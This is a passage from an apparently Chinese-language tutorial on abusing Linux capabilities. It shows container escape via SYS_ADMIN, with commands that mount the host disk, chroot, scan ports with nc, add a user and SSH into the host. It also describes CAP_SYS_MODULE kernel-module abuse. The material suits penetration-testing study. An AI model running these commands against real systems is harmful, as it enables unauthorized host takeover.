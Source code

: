 成功root密码password登陆。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/1/5715b4d2-313d-439b-ade4-4705225b293c.png?raw=true)

  

**当环境具有能力：**  主要为当前可能是一个容器，通过信息收集发现当前环境具有`SYS_ADMIN`。

*   • 挂载主机
    

可以在容器内挂载宿主机磁盘。

```
fdisk -l  
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors  
Units: sectors of 1 * 512 = 512 bytes  
Sector size (logical/physical): 512 bytes / 512 bytes  
I/O size (minimum/optimal): 512 bytes / 512 bytes

mount /dev/sda /mnt/  
cd /mnt  
chroot ./ bash


```

*   • 通过ssh
    

通过挂载，之后创建一个用户，在使用该用户ssh连接。

```
#Like in the example before, the first step is to moun the dosker host disk  
fdisk -l  
mount /dev/sda /mnt/

#Then, search for open ports inside the docker host  
nc -v -n -w2 -z 172.17.0.1 1-65535  
(UNKNOWN) [172.17.0.1] 2222 (?) open

#Finally, create a new user inside the docker host and use it to access via SSH  
chroot /mnt/ adduser john  
ssh john@172.17.0.1 -p 2222


```

除此之外还可以通过`notify_on_release`进行逃逸参考理解Docker容器转义\[6\] 。

CAP\_SYS\_MODULE
----------------

**CAP\_SYS\_MODULE:** 允许插入和删除内核模块 CAP\_SYS\_MODULE允许进程加载和卸载任意的内核模块（init\_module(2), finit\_module(2) 和 delete_module(2) 系统调用）。这可能导致微不足道的权限升级和ring-0妥协。内核可以被随意修改，颠覆所有系统安全、Linux安全模块和容器系统。

**当文件具有能力(内核编译参考环境部分)：** 

*   • python：可以利用python加载内核模块。
    